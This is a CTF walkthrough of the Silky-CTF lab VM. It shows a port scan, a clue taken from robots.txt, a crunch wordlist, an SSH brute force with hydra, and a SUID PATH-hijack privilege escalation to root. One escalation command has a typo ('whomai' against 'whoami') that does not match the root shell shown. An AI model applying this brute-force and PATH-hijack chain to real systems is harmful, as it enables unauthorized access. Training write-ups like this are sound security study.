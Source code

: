 Silky

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content discovery
[+] Crunch password creation with missing 2 chars
[+] Privilege Escalation Abusing PATH Variables -  whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Nmap Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-28 00:55 EST
Nmap scan report for 192.168.56.102
Host is up (0.00070s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 49:e6:fa:4c:d5:60:06:3b:c0:a8:c9:cc:00:10:7e:04 (RSA)
|   256 29:1b:39:69:32:aa:ae:9f:72:83:29:d4:27:db:f8:af (ECDSA)
|_  256 a0:05:9e:82:bc:9d:09:ce:8e:c5:40:b2:b2:93:c6:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/notes.txt
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:E4:6B:46 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms 192.168.56.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Investigating Robots.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/silky# curl http://192.168.56.102/robots.txt
User-agent: UniversalRobot/1.0
User-agent: mein-Robot

User-agent: *
Disallow: /notes.txt


root@setrus:~/vulnhub/silky# curl http://192.168.56.102/notes.txt
Ich muss unbedingt das Passwort aus der Seite entfernen, immerhin fehlen die letzten 2 Zeichen. Aber trotzdem.
root@setrus:~/vulnhub/silky# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After transaltion we get

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
I must necessarily remove the password from the page, after all, missing the last 2 characters. But still.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Finding Script.js

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/silky# curl http://192.168.56.102/script.js
//  s1lKy 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Generating passwords from strings ‘s1lKy’ We don't knwo the last 2 chars. Crunch will come in handy.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/silky# crunch 7 7 -t s1lKy^% >> pass.txt
Crunch will now generate the following amount of data: 2640 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 330 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Identifying the password fir silky

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/silky# hydra -t 1 -l silky -P pass.txt ssh://192.168.56.102
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-28 05:31:26

[DATA] attacking ssh://192.168.56.102:22/
[22][ssh] host: 192.168.56.102   login: silky   password: s1lKy#5
1 of 1 target successfully completed, 1 valid password found


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Connecting as silky  : s1lKy#5


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/silky# ssh silky@192.168.56.102
silky@192.168.56.102's password: 
Linux Silky-CTF 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 14 04:04:41 2019 from 192.168.178.22
silky@Silky-CTF:~$ id
uid=1000(silky) gid=1000(silky) Gruppen=1000(silky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),119(scanner)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Rrivilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
silky@Silky-CTF:~$ find / -perm -4000 -type f 2>/dev/null
/bin/su
/bin/ping
/bin/mount
/bin/umount
/bin/ntfs-3g
/bin/fusermount
/usr/bin/newgrp
/usr/bin/sky
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

/usr/bin/sky file of interest

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
silky@Silky-CTF:~$ /usr/bin/sky
Seide ist ein tierischer Faserstoff. Sie wird aus den Kokons der Seidenraupe, der Larve des Seidenspinners, gewonnen. 
gezeichnet:
root
silky@Silky-CTF:~$ strings /usr/bin/sky
/lib64/ld-linux-x86-64.so.2
04I0KBY
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
AWAVA
AUATL
[]A\A]A^A_
echo 'Seide ist ein tierischer Faserstoff. Sie wird aus den Kokons der Seidenraupe, der Larve des Seidenspinners, gewonnen. 
gezeichnet:';   whoami

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


The “whoami” is called by the script.
We create a whoami in tmp, add the /tmp to $Path and execute /usr/bin/sky.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
silky@Silky-CTF:/tmp$ echo '/bin/sh' > /tmp/whomai; chmod 777 /tmp/whoami; export PATH=/tmp:$PATH; /usr/bin/sky
Seide ist ein tierischer Faserstoff. Sie wird aus den Kokons der Seidenraupe, der Larve des Seidenspinners, gewonnen. 
gezeichnet:
# id
uid=1000(silky) gid=1000(silky) euid=0(root) Gruppen=1000(silky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),114(lpadmin),119(scanner)
# cd /root; ls
flag.txt
# cat /root/flag.txt
███████╗██╗██╗     ██╗  ██╗██╗   ██╗      ██████╗████████╗███████╗
██╔════╝██║██║     ██║ ██╔╝╚██╗ ██╔╝     ██╔════╝╚══██╔══╝██╔════╝
███████╗██║██║     █████╔╝  ╚████╔╝█████╗██║        ██║   █████╗  
╚════██║██║██║     ██╔═██╗   ╚██╔╝ ╚════╝██║        ██║   ██╔══╝  
███████║██║███████╗██║  ██╗   ██║        ╚██████╗   ██║   ██║     
╚══════╝╚═╝╚══════╝╚═╝  ╚═╝   ╚═╝         ╚═════╝   ╚═╝   ╚═╝     
                                                                  


flag: 489ca3ccb71640cce1a618a5dea48c25



Congrats ;)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



